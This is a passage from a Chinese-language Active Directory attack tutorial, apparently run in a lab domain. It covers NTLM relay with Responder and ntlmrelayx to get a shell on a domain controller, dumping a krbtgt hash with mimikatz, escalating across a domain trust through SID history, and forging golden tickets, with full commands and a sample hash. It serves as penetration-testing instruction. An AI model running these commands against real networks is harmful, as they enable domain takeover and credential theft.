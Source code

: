 <img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0gTdBMCoNVBrO0sy5zsXnwNQF2YmcnhtZzRnM317N8EkmRp7WibSwCeA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

responder  -I eth0ntlmrelayx.py  -t 172.16.127.173 -l ./

域管机器访问不存在的机器时，会中继到域控机器，我们成功获取shell

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0W77cABibSL2nlKL3Vq40iaoUjOUO45E7ovjCqMicDOrusleCk33TpZEpw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:67%;" />

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0jhRnicOSDKFtsAGQI4icVmWX9eNCroq6olhj82sQ0eB9o66lpnvn053Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom: 67%;" />

## **5.4、域信任**

当存在子父域时，默认其是双向信任。可以利用sid history跨域提权。流程大致如下：

利用如下，使用mimikatz获取子域的Krbtgt Hash：

lsadump::lsa  /patch

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0Gk1BpFlHeCtiboOGAIo3Cicgvek7ulkSvbPyNVRFVZHXFGuMhIUP3vlQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

再使用powerview获取父域的sid：

Get-DomainComputer  -Domain jumbolab.com

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0tDbRp4d6ygic6wwW4NTiaGarXdA2nOquBz14TM3Va7utjr2miaP17ElXQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

然后添加一个sid=519的企业管理员，利用mimikatz执行如下命令：

kerberos::golden  /user:Administrator /krbtgt:5a1c26831592774a17f70370b8606449  /domain:child.jumbolab.com  /sid:S-1-5-21-1786649982-4053697927-1628754434  /sids:S-1-5-21-4288736272-2299089681-4131927610-519 /ptt

最终成功获取父域权限：

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0mCfibib7JI58dmY196w4JwLbZrr2KYkLibM72d15Hhibu0uqK6Zt2ttzng/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

## **5.5、攻击Kerberos**

在域中，最核心的就是kerberos协议了，但是也会出现各种安全问题，甚至可以以一个普通域用户提权到system权限，配置不当甚至可以获取到域控权限。

### **5.5.1 PTT**

当我们抓取到了krbtgt hash时，能做什么？继续往下看。

**5.5.1.1 金票据**

上面提到了ms14-068，也介绍Kerberos协议，知道了TGT是由krbtgt加密而成。因此当拿到krbtgt账号hash时，就可以构造一个任意权限的tgt了：

使用方法：

mimikatzkerberos::purgekerberos::golden  /admin:administrator /domain:域 /sid:SID /krbtgt: krbtgt  hash值 /ticket:administrator.kiribikerberos::ptt  administrator.kiribikerberos::tgtdir  \\dc.domain.com\c$

**5.5.1.2 银票据**
